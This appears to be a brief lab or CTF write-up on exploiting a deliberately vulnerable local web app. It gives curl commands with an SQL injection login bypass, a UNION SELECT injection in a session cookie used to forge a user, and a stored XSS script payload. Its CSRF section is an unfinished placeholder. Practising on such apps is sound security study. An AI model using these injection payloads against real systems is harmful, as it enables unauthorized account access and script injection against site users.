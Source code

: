 ```yaml
---
title: This Damned Vulnerable Snake!
date: 2024-05-04
author:
  - "0x42697262"
  - Orochi
  - Jinx
---
```


Authors:

- 0x42697262
- Jinx
- Orochi

# This Damned Vulnerable Snake!

## TL;DR

Here are the vulnerabilities and to exploit them:

### SQL Injection

```bash
curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=a' OR 1=1 --&password="
```

### Stored XSS

```bash
curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=' UNION SELECT id, username FROM users --" --data-raw 'message=<script>alert(window.origin)</script>'
```

### CSRF

how

## Introduction

Login as the first user.
This will also create a new `session_token` every time.

curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=' UNION SELECT '69420' as id, 'eli' as username FROM users LIMIT 1--" --data-raw 'message=<script>alert(window.origin); alert(177013)</script>'

curl 'http://0.0.0.0:5000/home'  -H 'Cookie: session_token=f5c8541ad5f844d551a4fc9f2554b821b437232324d32260e6d260c4603dbf8a' 
